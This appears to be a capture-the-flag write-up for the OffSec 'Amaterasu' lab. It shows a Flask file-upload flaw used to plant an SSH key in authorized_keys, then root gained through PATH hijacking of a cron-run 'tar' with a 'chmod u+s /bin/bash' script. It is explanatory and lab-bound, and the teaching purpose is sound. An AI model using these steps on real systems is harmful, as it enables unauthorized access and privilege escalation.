# Amaterasu — OffSec Proving Grounds Play

> A practical penetration-testing walkthrough covering service enumeration, a custom Flask file API, SSH key abuse, local enumeration, and privilege escalation through a root-owned cron job and `PATH` hijacking.

---

## Machine Overview

| Item | Details |
|---|---|
| Platform | OffSec Proving Grounds Play |
| Machine | **Amaterasu** |
| Initial access | Custom Flask file-upload API |
| User | `alfredo` |
| Privilege escalation | `PATH` hijacking |
| Final privilege | `root` |

> **Note about the target IP:** the original notes contain both `192.168.236.249` and `192.168.206.249`. The later scans, screenshots, and SSH commands consistently use `192.168.206.249`, so this README uses `192.168.206.249` as the target. Replace it with the IP assigned to your own lab instance.

---

## Attack Path

```text
                    ┌──────────────────────┐
                    │   Target: Amaterasu  │
                    └──────────┬───────────┘
                               │
                         Port enumeration
                               │
                ┌──────────────┼──────────────┐
                │              │              │
             FTP :21       SSH :25022      HTTP
                                           :33414
                                           :40080
                                              │
                                      Custom Flask API
                                              │
                                      /info + /help
                                              │
                                      /file-list?dir=
                                              │
                                      /file-upload
                                              │
                               Upload public SSH key
                                              │
                                      SSH as alfredo
                                              │
                                        local.txt
                                              │
                                      Run LinPEAS
                                              │
                                  root cron every minute
                                              │
                              /usr/local/bin/backup-flask.sh
                                              │
                                  Unqualified `tar`
                                              │
                                  PATH hijacking
                                              │
                                           root
                                              │
                                         proof.txt
```

---

# 1. Reconnaissance

The first step was a full TCP port scan with service/version detection.

```bash
nmap -sCV -p- <TARGET_IP> --min-rate=3000 -o amaterasu
```

The initial scan showed several interesting services, including FTP, SSH, and two HTTP services.



A second scan was performed to confirm the exposed ports.

```bash
nmap -p- --open <TARGET_IP> --min-rate=5000
```

The confirmed open ports were:

- `21/tcp` — FTP
- `25022/tcp` — SSH
- `33414/tcp` — HTTP / Werkzeug
- `40080/tcp` — HTTP / Apache



Service enumeration against the interesting ports provided more detail:

```bash
nmap -p 25022,33414,40080 -sCV <TARGET_IP> --min-rate=5000
```

Notable results:

- SSH on `25022`
- Werkzeug/Python HTTP server on `33414`
- Apache HTTP server on `40080`
- The Apache service exposed a potentially risky `TRACE` method



---

# 2. Web Enumeration

## Port 40080

Browsing to the Apache service revealed the web page shown below.


Directory enumeration was performed against the web services using tools such as `feroxbuster` and `gobuster`, with multiple wordlists.

The enumeration on port `40080` did not reveal anything useful.

---

## Port 33414

The Werkzeug service was more interesting.

Directory enumeration against port `33414` revealed two endpoints:

- `/info`
- `/help`



### `/info`

Requesting `/info` revealed information about the application.



### `/help`

The `/help` endpoint was even more useful because it documented the available API functionality.



The documented functionality included:

```text
GET  /info
GET  /help
GET  /file-list?dir=<directory>
POST /file-upload
```

That last endpoint immediately stood out because arbitrary file upload functionality can become much more interesting when combined with a controllable filename or destination.

---

# 3. File Enumeration

The `/file-list` endpoint accepted a directory parameter.

Testing `/tmp` returned a directory listing.



Next, `/home` was enumerated.



The `alfredo` home directory was particularly interesting:



It contained:

- `local.txt`
- `.ssh`
- `restapi`
- `.bash_history`
- other normal shell configuration files

The `.ssh` directory was then inspected.



An `id_rsa.pub` file was visible.

The obvious next step was to see whether the API could also retrieve the private key.

Attempting to access `id_rsa` resulted in an internal server error.



At this point, simply reading sensitive files through `/file-list` was not enough. The upload functionality became the more promising attack surface.

---

# 4. Testing the File Upload

An initial request using the wrong multipart field resulted in an error.



A simple test file was created locally:

```text
this is a testfile.txt
```



The upload endpoint was then tested with the correct multipart fields:

```bash
curl -F "file=@test.txt" \
     http://<TARGET_IP>:33414/file-upload \
     -F "filename=test.txt"
```

The server responded that the file was successfully uploaded.



The `/tmp` directory was checked again after the upload.



---

# 5. Failed Reverse Shell Attempt

Since arbitrary file upload appeared possible, the next idea was to upload a reverse-shell payload.

The attempt did not work.



The application also enforced an extension allowlist. A `.phtml` payload was rejected:

```text
Allowed file types are txt, pdf, png, jpg, jpeg, gif
```



The reverse-shell approach was therefore abandoned.

But the upload primitive had another important property: **the destination filename could be supplied separately from the uploaded file**.

That changed the attack.

---

# 6. SSH Key Injection

Instead of uploading executable code, an SSH public key could be uploaded.

A new RSA key pair was generated:

```bash
ssh-keygen -t rsa -b 4096
```



The generated public key was copied into the working directory.

```bash
cp ~/.ssh/id_rsa.pub .
```



Because the upload endpoint restricted file extensions, the public key was renamed to a permitted image extension:

```bash
mv id_rsa.pub id_rsa.pub.jpg
```



The important part was the `filename` parameter.

Instead of saving the file under its uploaded name, the request supplied a path targeting Alfredo's SSH configuration:

```text
/home/alfredo/.ssh/authorized_keys
```

The upload succeeded.



This effectively placed our public key into Alfredo's `authorized_keys`.

---

# 7. SSH Access as Alfredo

SSH was exposed on port `25022`.

Using the corresponding private key:

```bash
ssh alfredo@<TARGET_IP> -p 25022
```

Authentication succeeded.



We now had a shell as:

```text
alfredo
```

The first objective was to retrieve `local.txt`.

```bash
ls
cat local.txt
```



---

# 8. Local Enumeration

With a foothold established, privilege escalation was the next objective.

SUID binaries were checked first, but nothing immediately useful was found.

The next step was to use **LinPEAS** for broader local enumeration.

The first attempt to transfer it using a Python HTTP server did not work as expected, so SCP was used instead.

From the attacking machine:

```bash
scp -P 25022 linpeas.sh alfredo@<TARGET_IP>:/tmp
```



The file was present in `/tmp`.



Execute permission was added and LinPEAS was run:

```bash
chmod +x linpeas.sh
./linpeas.sh
```



---

# 9. Interesting Findings

LinPEAS reported multiple potential privilege-escalation vectors.

One finding involved `pkexec`, which was identified as potentially vulnerable to **CVE-2021-4034 (PwnKit)**.



The original approach was to use PwnKit.

The exploit binary was transferred to the target using SCP:

```bash
scp -P 25022 PwnKit alfredo@<TARGET_IP>:/tmp
```



The binary was then present on the target:



However, executing PwnKit did not produce the expected privilege escalation.

Rather than forcing a failed exploit path, the LinPEAS results were reviewed again for another opportunity.

---

# 10. Cron Job Discovery

A particularly interesting entry was found:

```text
*/1 * * * * root /usr/local/bin/backup-flask.sh
```

In other words, a script owned/executed by `root` was being run every minute.



The script was inspected:

```bash
ls -l /usr/local/bin/backup-flask.sh
cat /usr/local/bin/backup-flask.sh
```

The important contents were:

```bash
#!/bin/sh

export PATH="/home/alfredo/restapi:$PATH"

cd /home/alfredo/restapi

tar czf /tmp/flask.tar.gz *
```

The script was owned by root:

```text
-rwxr-xr-x. 1 root root ... /usr/local/bin/backup-flask.sh
```



This is the key vulnerability.

The script explicitly prepended a directory writable by `alfredo` to `PATH`:

```bash
export PATH="/home/alfredo/restapi:$PATH"
```

It then executed:

```bash
tar czf /tmp/flask.tar.gz *
```

Notice that `tar` was referenced by name rather than by its absolute path, such as:

```bash
/usr/bin/tar
```

That creates a classic **PATH hijacking** opportunity.

---

# 11. PATH Hijacking

The attacker-controlled directory was:

```text
/home/alfredo/restapi
```

Because this directory appeared **before** the normal system directories in `PATH`, a malicious executable named `tar` placed there would be selected before `/usr/bin/tar`.

A fake `tar` script was therefore created in the writable directory.

The malicious script contained:

```bash
#!/bin/bash
chmod u+s /bin/bash
```



The script was made executable.

Once the root cron job executed `backup-flask.sh`, its modified `PATH` caused the attacker's `tar` to be executed with root privileges.

This changed the SUID bit on `/bin/bash`.

The result was confirmed with:

```bash
ls -l /bin/bash
```

The output showed the SUID bit:

```text
-rwsr-xr-x. 1 root root ... /bin/bash
```



---

# 12. Root Shell

With SUID set on `/bin/bash`, a privileged Bash shell could be spawned using:

```bash
/bin/bash -p
```

Then:

```bash
whoami
```

returned:

```text
root
```



The final proof file was located under `/root`:

```bash
cd /root
ls
cat proof.txt
```

At this point, full root access had been achieved.

---

# 13. Complete Attack Chain

The compromise can be summarized as:

1. **Port scanning** revealed SSH and two HTTP services.
2. **Web enumeration** identified a custom Flask REST API on port `33414`.
3. `/help` disclosed the available API endpoints.
4. `/file-list` allowed filesystem enumeration.
5. `/file-upload` allowed file uploads with a user-controlled destination filename.
6. A public SSH key was disguised as an allowed `.jpg` file.
7. The upload destination was set to Alfredo's `authorized_keys`.
8. SSH access was obtained as `alfredo`.
9. LinPEAS was transferred and executed.
10. PwnKit was identified but failed to provide the expected escalation.
11. A root cron job executing `backup-flask.sh` was discovered.
12. The script prepended a writable directory to `PATH`.
13. A malicious `tar` executable was placed in that directory.
14. The root cron job executed the attacker's `tar`.
15. The malicious script enabled SUID on `/bin/bash`.
16. `/bin/bash -p` provided a root shell.
17. `proof.txt` was retrieved.

---

# 14. Key Takeaways

### Custom APIs deserve careful enumeration

The most valuable information came from `/help`. A small custom API can expose functionality that is much more dangerous than a conventional web page.

### File upload is about more than file execution

The upload endpoint did not allow the obvious reverse-shell payload because of its extension filter.

That did **not** make the upload functionality safe.

The ability to control the **destination filename** was the real weakness.

### SSH keys are powerful primitives

Writing an attacker-controlled public key to:

```text
~/.ssh/authorized_keys
```

can turn a file-write primitive into authenticated SSH access without knowing the user's password.

### Failed exploits are not dead ends

PwnKit was detected but did not work in this case. The better move was to return to enumeration rather than blindly troubleshooting an exploit.

### PATH hijacking can be devastating

The privilege escalation ultimately depended on a simple mistake:

```bash
export PATH="/home/alfredo/restapi:$PATH"
```

combined with:

```bash
tar ...
```

and execution as root.

Whenever a privileged process uses an unqualified executable name, inspect its `PATH` and determine whether an attacker can control any earlier directory.

---

# 15. Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Port and service enumeration |
| `gobuster` | Directory enumeration |
| `feroxbuster` | Directory/content enumeration |
| `curl` | HTTP API interaction and file upload |
| `ssh-keygen` | Generate SSH authentication keys |
| `ssh` | Remote access |
| `scp` | File transfer |
| `LinPEAS` | Local privilege-escalation enumeration |
| `PwnKit` | Attempted CVE-2021-4034 escalation |

---

## Screenshots

All screenshots from the original walkthrough are preserved in the [`images/`](images/) directory and embedded throughout this README.

For quick reference:





---

## Disclaimer

This write-up is for educational purposes and is based on an authorized OffSec Proving Grounds Play lab machine. Do not apply these techniques to systems you do not have explicit permission to test.

---

*Write-up refined from the original Amaterasu walkthrough.*
